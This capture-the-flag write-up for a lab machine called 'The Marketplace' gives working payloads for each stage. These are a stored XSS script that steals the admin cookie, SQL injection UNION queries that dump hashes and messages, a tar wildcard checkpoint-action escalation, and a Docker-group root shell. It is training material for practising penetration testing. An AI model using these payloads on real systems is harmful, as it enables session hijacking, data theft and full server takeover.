 # Marketplace

> The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.
> Can you take advantage of this and will you be able to gain root access on his server?

Overall, a fun room if not too complicated. I ran into a few troubles, but nothing major.

1. Recon revealed 22, 80 and 32768. Oddly, 80 and 32768 appeared to be the same site, right down to the same database. Not entirely sure why, even after beating the room.

## Exploit 1 - XSS

2. The site was a simple marketplace: you could sign up and create listings, but the image upload was disabled. I experimented with this but was unable to re-enable it.
3. With a listing, you could report it at which point you would receive a message saying the admin is/has reviewed it. You could also send messages. This was the first exploit, when combined with the discovery that the description field of listings allowed script tags (stored XSS). I created a new listing with the following description:

```html
<script>
const XHR = new XMLHttpRequest();
XHR.open('POST', '/contact/myuser');
  XHR.setRequestHeader( 'Content-Type', 'application/x-www-form-urlencoded' );
  XHR.send('message='+escape(document.cookie));
</script>
```

4. Once created I could confirm that my user was getting my cookie, and after reporting the new listing shortly thereafter I got the admin's cookie as well. This allowed me to assume the admin's session, and I got the first flag.

## Exploit 2 - SQLi

5. In the admin area you could see all the users and inspect them. This had the url `/admin?user=1` etc, which I discovered was injectable by adding a `'`. Unfortunately, if the query 'broke' (not a mysql exception, but invalid data for the site) it appeared to invalidate the session token. Several dozen new tokens later (via the reporting process above) and I gave up using `sqlmap` instead opting to try and explore manually.
6. I used `/admin?user=10+union+SELECT+password,+username,+null,+null+FROM+users+LIMIT+1,1` to extract the users from the table and set about breaking them with hashcat. This was a deadend: the encryption was bcrypt (hashes started with $2b$10$) which meant with my 2080 I could only do around a 1000 a second. I broke my own password quickly, but the others are still unbroken as of this writeup, so that was the wrong approach.
7. There was another table, messages, which tracked the between user messages. This was the one area I had skipped as unimportant - bad choice, as the second trick is here. I got a hint for this from reddevil2020. Anyway, the following allowed me to extract the messages one by one: `/admin?user=10+union+select+user_to,+message_content,null,null+from+messages+limit+0,1+`. Uncessary, really, since the first contained the ssh password for the user jake. In jakes home dir was the user flag.

## Exploit 3 - Wildcard Expansion

8. `sudo -l` for jake revealed:

```
User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

The contents of backup.sh, which were not writable by jake, was:

```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

This is pretty obviously tar wildcard expansion, as detailed here: https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/
(Pretty obvious once you've done it before I mean; the tar cf whatever * is fairly distinctive.)

9. To jump to michael I did the following:

    ```
    echo "/bin/bash -p" > demo.sh
    touch -- "--checkpoint=1"
    touch -- "--checkpoint-action=exec=sh demo.sh"
    sudo -u michael /opt/backups/backup.sh
    ```
    
    I deleted backup.tar first, but I am not sure that was necessary.
   
## Exploit 4 - Docker
   
10. michael's user had under its groups docker membership. The following got me the root shell: `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
11. The final flag was under /root/root.txt
